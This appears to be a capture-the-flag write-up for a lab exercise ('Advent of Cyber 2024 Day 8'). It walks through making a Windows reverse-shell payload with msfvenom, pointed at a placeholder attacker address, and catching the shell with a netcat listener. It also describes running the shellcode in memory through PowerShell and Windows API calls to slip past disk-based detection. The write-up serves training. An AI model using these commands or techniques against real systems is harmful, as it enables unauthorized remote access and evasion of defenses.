


# Advent of Cyber 2024 - Day 8

## Challenge Overview
Create and execute shellcode for a reverse shell using PowerShell, leveraging Windows API functions to gain access and capture the flag.

---

## Steps

### Generating Shellcode

We used `msfvenom` to generate shellcode for a reverse shell targeting a Windows system. The shellcode connects back to the attacker's machine when executed.

**Command Used**:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=4444 -f powershell
```

This generates a PowerShell-formatted payload for a reverse shell.

---

### Preparing and Executing the Shellcode

The generated shellcode was embedded in a PowerShell script, which interacts with the Windows API to execute the payload. Key functions include:
- `VirtualAlloc` to allocate memory for the shellcode.
- `CreateThread` to execute the shellcode.
- `WaitForSingleObject` to pause until execution completes.
 


---

### Establishing a Connection

To capture the reverse shell, we set up a netcat listener on the attack machine:
```bash
nc -nvlp 4444
```

Once the PowerShell script was executed on the target machine, the connection was established successfully.

---

### Retrieving the Flag

The reverse shell allowed us to navigate the compromised system. Using the shell, we located the flag at:
```cmd
C:\Users\glitch\Desktop\flag.txt
```

**Command Used**:
```cmd
type C:\Users\glitch\Desktop\flag.txt
```



---

## Key Findings
1. **Generating Shellcode**: We used `msfvenom` to craft a reverse shell payload tailored for Windows systems.
2. **Executing Shellcode via PowerShell**: Leveraging Windows API through PowerShell allowed the shellcode to execute successfully, bypassing traditional disk-based detections.
3. **Obtaining a Reverse Shell**: A netcat listener captured the reverse shell, granting remote access to the target system.
4. **Flag Retrieval**: Using the reverse shell, we navigated the target system to locate and retrieve the flag.

---

## Conclusion

This task emphasized the importance of understanding shellcode execution and defensive techniques. By executing shellcode through PowerShell, we demonstrated how attackers can leverage built-in tools to evade detection and gain unauthorized access. It is critical to monitor network activity and implement robust defenses against such techniques.

---

